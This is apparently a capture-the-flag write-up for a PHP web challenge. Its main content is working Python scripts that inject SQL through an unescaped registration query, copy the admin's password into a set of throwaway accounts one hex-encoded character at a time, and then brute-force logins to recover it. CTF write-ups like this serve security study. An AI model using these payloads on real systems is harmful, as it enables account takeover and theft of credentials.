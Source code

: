 # cps remastered

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/99d601dd-3e2d-4616-a727-452e7f2daa03)

see other files in folder

## solution

one thing that was annoying about this challenge was setting up a local copy of the php server, which took way longer than it should've

if we take a look at register.php, we can see that the SQL command is not being escaped correctly using `bind_param` like it is everywhere else, so we can do SQL injection

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/a7bd86e4-48dc-40b1-9c1a-d3e68b704075)

share.py
```py
ip = "https://cps.amt.rs/"
```

create.py
```py
import requests
from share import *
from _thread import start_new_thread
from time import sleep


def register(_2, uname, psswd):
    userdata = {"username": uname, "password": psswd}
    requests.post(ip + "register.php", data=userdata)
    print(_2+1, "created")


for _ in range(100):
    sleep(0.2)
    pl = f"jonas{_+1}', HEX(SUBSTR((SELECT password FROM (SELECT * FROM users)tmpp WHERE username LIKE 'admin'), {_+1}, 1))); -- q"
    start_new_thread(register, (_, pl, "a"))
sleep(100)
```

here, we create an account called `jonas<number>` for each character the password of the admin, and the password to the jonas account is hex encoded of the character, so `a` -> `61`

now, we can try to login as each account 256 times with the hex code for the character as the password

crack.py
```py
import requests
from _thread import start_new_thread
from share import *
from time import sleep


def login(uname, psswd):
    userdata = {"username": uname, "password": psswd}
    if "You are now logged in" in requests.post(ip + "login.php", data=userdata).text:
        if psswd == "":
            print(uname, "empty password btw <<<<<<")
        else:
            print()
            print(uname, chr(int(psswd, 16)), "GOOD <<<<<<")
            print()
    else:
        # print(uname, psswd, "fail")
        pass


index = 1
while True:
    charset = "abcdef0123456789"
    for char in charset:
        for char2 in charset:
            start_new_thread(login, (f"jonas{index}", char + char2))
            sleep(0.03)
    sleep(3)
    index += 1
```

then, we get the flag char by char
